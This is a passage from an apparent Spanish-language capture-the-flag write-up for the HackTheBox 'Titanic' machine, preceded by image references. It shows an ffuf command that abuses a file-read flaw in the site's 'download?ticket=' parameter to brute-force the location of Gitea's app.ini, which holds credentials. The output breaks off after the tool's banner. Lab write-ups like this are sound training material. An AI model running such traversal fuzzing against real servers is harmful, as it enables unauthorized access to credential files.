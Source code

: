 ![20250829180130.png](20250829180130.png)

Revisando la documentación de [Gitea](https://docs.gitea.com/1.21/administration/config-cheat-sheet) encontramos que existe una ruta con credenciales o rutas sensibles `custom/conf/app.ini`

![20250829223415.png](20250829223415.png)

En el repositorio vemos que tenemos una ruta donde esta desplegado la app `/home/developer/gitea/data`. Teniendo en cuenta la documentación debería existir un archivo en `/home/developer/gitea/data/[custom]/conf/app.ini`, por lo que realizaremos fuerza bruta para poder encontrar el directorio.

```c
❯ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u 'http://titanic.htb/download?ticket=/home/developer/gitea/data/FUZZ' -e .ini,.txt,.sql

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://titanic.htb/download?ticket=/home/developer/gitea/data/FUZZ
```